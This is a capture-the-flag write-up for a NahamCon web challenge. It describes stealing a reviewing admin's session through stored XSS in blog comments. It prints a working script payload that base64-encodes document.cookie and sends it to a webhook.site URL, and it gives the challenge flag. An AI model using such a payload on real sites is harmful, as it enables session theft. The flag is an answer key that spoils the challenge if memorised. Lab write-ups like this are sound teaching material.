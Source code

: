 # Star Wars
> If you love Star Wars as much as I do you need to check out this blog!

## About the Challenge
We got another website to pentest, and there are some functionality that we can test such as register, login, giving a comment in post.


[Image extracted text: X-Wing
Logout]


[Image extracted text: chucked in as light relief but the serious and dark stories that grow throughout the
seasons are phenomenally strong and superb quality. This stands
easily alongside the best movies as great Star Wars. The writing and voice acting are terrific while the action and animation is amazing:
Comments
Ahsoka is the best character in the entire Star Wars sagal
congon-tor
Comment
Send]


## How to Solve?
When I attempt to post a comment, my comment is reviewed by the admin first. So, I assume that this website is vulnerable to XSS, and we need to steal the admin's cookie. To steal the admin cookie, im using this simple XSS payload

```
<script>var i=new Image(); i.src="https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie="+btoa(document.cookie);</script>
```


[Image extracted text: Comments
Ahsoka is the best character in the entire Star Wars sagal
congon4tor
This comment is not public it needs to be reviewed
tesssss
Comment
Send]


Submit the payload and then wait until you got a pingback. And voilà, you got an admin cookie


[Image extracted text: Request Details
Permalink
Raw content
Expont as-
GET
https IIwebhook site/47c2cdc9-1233-4ac8-8e8b-55efeO6aeb2c/?cookie-eC13aWSnPW5
SmZjR1ZSYIdGdVpXNTBJanAwY2SWbExDSnBaQOkZTVgwLIpJMUZBUSSQOGxOSOgM
RFpZLUUta2JseXMxT1FrLVBGODQ =
Host
34.29.109.106 whois
Date
06/17/2023 12.30.43 PM (a few seconds ago)
Size
bytes
c25cbfe9-32de-4537-b047-c4a94553a149
Files
Query strings
cookie
eC13aNSnPNVSSmZjRIZSYldGdVpXNTBJanAwYZSWbExDSnBaqakZTVgwLlpJMUZBUSSQOGX
0S09MRFp2LUUta2]seXMxTIFrLVBGODQ=
No content]


Decode the cookie using `base64` and then replace your cookie with the admin cookie. After that, go to `/admin` endpoint to obtain the flag


[Image extracted text: Not secure
challenge nahamcon com 31451/admin
6
A
X-Wing
Admin
Logout
Congratulations you are the admin here is your flag: flag{a538c88890d45a382e44dfd00296a99b}]


```
flag{a538c88890d45a382e44dfd00296a99b}
```